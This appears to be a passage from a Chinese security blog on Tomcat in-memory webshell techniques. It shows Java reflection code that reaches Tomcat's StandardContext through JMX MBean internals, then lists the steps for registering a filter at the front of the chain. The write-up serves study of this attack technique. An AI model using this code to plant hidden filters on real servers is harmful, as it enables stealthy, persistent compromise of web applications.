 打开`jconsole`，获取`tomcat`的`Mbean`:

![](https://cdn.jsdelivr.net/gh/cnsimo/pic_bed/20200704120332.png)

感觉其中好多地方都可以获取到`context`，比如`RequestProcessor`、`Resource`、`ProtocolHandler`、`WebappClassLoader`、`Value`。

### Value获取

代码：

```java
MBeanServer mBeanServer = Registry.getRegistry(null, null).getMBeanServer();
// 获取mbsInterceptor
Field field = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
field.setAccessible(true);
Object mbsInterceptor = field.get(mBeanServer);
// 获取repository
field = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
field.setAccessible(true);
Object repository = field.get(mbsInterceptor);
// 获取domainTb
field = Class.forName("com.sun.jmx.mbeanserver.Repository").getDeclaredField("domainTb");
field.setAccessible(true);
HashMap<String, Map<String, NamedObject>> domainTb = (HashMap<String,Map<String,NamedObject>>)field.get(repository);
// 获取domain
NamedObject nonLoginAuthenticator = domainTb.get("Catalina").get("context=/,host=localhost,name=NonLoginAuthenticator,type=Valve");
field = Class.forName("com.sun.jmx.mbeanserver.NamedObject").getDeclaredField("object");
field.setAccessible(true);
Object object = field.get(nonLoginAuthenticator);
// 获取resource
field = Class.forName("org.apache.tomcat.util.modeler.BaseModelMBean").getDeclaredField("resource");
field.setAccessible(true);
Object resource = field.get(object);
// 获取context
field = Class.forName("org.apache.catalina.authenticator.AuthenticatorBase").getDeclaredField("context");
field.setAccessible(true);
StandardContext standardContext = (StandardContext) field.get(resource);
```

反射弧：`mBeanServer->mbsInterceptor->repository->domainTb->nonLoginAuthenticator->resource->context`。

## 通过StandardContext注册filter

通过filter流程分析可知，注册filter需要两步：

- 修改`filterConfigs`；
- 将filter插到`filterMaps`的`0`位置；
